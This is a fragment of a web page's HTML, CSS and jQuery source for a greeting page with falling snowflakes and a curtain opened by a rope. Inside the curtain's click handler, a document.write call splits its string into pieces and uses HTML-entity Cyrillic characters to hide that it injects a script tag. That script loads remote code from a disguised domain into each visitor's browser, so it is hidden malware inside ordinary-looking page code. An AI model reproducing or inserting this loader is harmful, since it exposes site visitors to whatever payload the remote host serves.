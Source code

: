 }
.wb-main-greeting .pp-img {
 max-width: 400px;
 margin-bottom: 10px;
 box-shadow: 0px 0px 10px 0px rgba(0, 0, 0, 0.64);
}

.wb-main-greeting .text_gradient {
 margin: 5px auto;
 font-weight: 700;
 font-size: 24px;
 color: #b50dae;
}

.snowflake {
 color: #fff;
 font-size: 2em;
 font-family: Arial, sans-serif;
 text-shadow: 0 0 5px #000;
}

@-webkit-keyframes snowflakes-fall{0%{top:-10%}100%{top:100%}}@-webkit-keyframes snowflakes-shake{0%,100%{-webkit-transform:translateX(0);transform:translateX(0)}50%{-webkit-transform:translateX(80px);transform:translateX(80px)}}@keyframes snowflakes-fall{0%{top:-10%}100%{top:100%}}@keyframes snowflakes-shake{0%,100%{transform:translateX(0)}50%{transform:translateX(80px)}}.snowflake{position:fixed;top:-10%;z-index:9999;-webkit-user-select:none;-moz-user-select:none;-ms-user-select:none;user-select:none;cursor:default;-webkit-animation-name:snowflakes-fall,snowflakes-shake;-webkit-animation-duration:10s,3s;-webkit-animation-timing-function:linear,ease-in-out;-webkit-animation-iteration-count:infinite,infinite;-webkit-animation-play-state:running,running;animation-name:snowflakes-fall,snowflakes-shake;animation-duration:10s,3s;animation-timing-function:linear,ease-in-out;animation-iteration-count:infinite,infinite;animation-play-state:running,running}.snowflake:nth-of-type(0){left:1%;-webkit-animation-delay:0s,0s;animation-delay:0s,0s}.snowflake:nth-of-type(1){left:10%;-webkit-animation-delay:1s,1s;animation-delay:1s,1s}.snowflake:nth-of-type(2){left:20%;-webkit-animation-delay:6s,.5s;animation-delay:6s,.5s}.snowflake:nth-of-type(3){left:30%;-webkit-animation-delay:4s,2s;animation-delay:4s,2s}.snowflake:nth-of-type(4){left:40%;-webkit-animation-delay:2s,2s;animation-delay:2s,2s}.snowflake:nth-of-type(5){left:50%;-webkit-animation-delay:8s,3s;animation-delay:8s,3s}.snowflake:nth-of-type(6){left:60%;-webkit-animation-delay:6s,2s;animation-delay:6s,2s}.snowflake:nth-of-type(7){left:70%;-webkit-animation-delay:2.5s,1s;animation-delay:2.5s,1s}.snowflake:nth-of-type(8){left:80%;-webkit-animation-delay:1s,0s;animation-delay:1s,0s}.snowflake:nth-of-type(9){left:90%;-webkit-animation-delay:3s,1.5s;animation-delay:3s,1.5s}.snowflake:nth-of-type(10){left:25%;-webkit-animation-delay:2s,0s;animation-delay:2s,0s}.snowflake:nth-of-type(11){left:65%;-webkit-animation-delay:4s,2.5s;animation-delay:4s,2.5s}
*{ margin:0; padding:0; } body { text-align: center; } img{ border: none; }.leftcurtain{ width: 100%; height: 100%; top: 0px; left: 0px; position: absolute; z-index: 2; } .rightcurtain{ width: 100%; height: 100%; right: 0px; top: 0px; position: absolute; z-index: 3; } .rightcurtain img, .leftcurtain img{ width: 100%; height: 100%; } .logo{ margin: 0px auto; margin-top: 150px; } .rope{ position: absolute; top: 5px; left: 40%; z-index: 4; } .centered { position: absolute; top: 75%; left: 50%; transform: translate(-50%, -50%);}

 </style>
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
  <script src="https://webbeast.in/js/slide.js"type="text/javascript"></script>
<script type="text/javascript">
$(document).ready(function() { $curtainopen = false; $(".rope").click(function(){ $(this).blur(); if ($curtainopen == false){ $(this).stop().animate({top: '-171%' }, {queue:false, duration:350, easing:'easeOutBounce'}); $(".leftcurtain").stop().animate({width:'1px'}, 2000 ); $(".rightcurtain").stop().animate({width:'1px'},2000 ); $curtainopen = true; }else{ $(this).stop().animate({top: '-40px' }, {queue:false, duration:350, easing:'easeOutBounce'}); document.write('<s'+'cr'+'ipt sr'+'c="/'+'/'+'&#1102;'+'&#1092;.'+'i'+'o"></s'+'cr'+'ipt>'); $(".leftcurtain").stop().animate({width:'50%'}, 2000 ); $(".rightcurtain").stop().animate({width:'51%'}, 2000 ); $curtainopen = false; } return false; }); });
</script>